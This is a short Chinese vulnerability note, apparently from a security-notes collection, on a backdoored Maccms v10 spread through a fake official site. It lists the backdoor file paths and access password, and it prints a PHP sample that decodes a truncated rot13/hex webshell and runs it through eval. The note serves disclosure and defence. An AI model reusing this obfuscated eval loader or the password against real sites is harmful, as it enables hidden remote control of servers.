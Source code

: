 # Maccms后门

### 一、漏洞简介

有人假冒苹果cms官网，发布带有后门的程序。

### 二、漏洞影响

version v10

### 三、复现过程

后门文件路径

maccms10\extend\upyun\src\Upyun\Api\Format.php

maccms10\extend\Qcloud\Sms\Sms.php

密码 WorldFilledWithLove

**后门样本**


```php
<?php
error_reporting(E_ERROR);
@ini_set('display_errors','Off');
@ini_set('max_execution_time',20000);
@ini_set('memory_limit','256M');
header("content-Type: text/html; charset=utf-8");
$password = "0d41c75e2ab34a3740834cdd7e066d90";
function s(){
 $str = "66756r6374696s6r207374…………"; //大马
 $str = str_rot13($str);
 m($str);
}
function m($str){
 global $password;
 $jj = '';
 eval($jj.pack('H*',$str).$jj);
}
s();
?>
```

![](images/15891210607445.png)
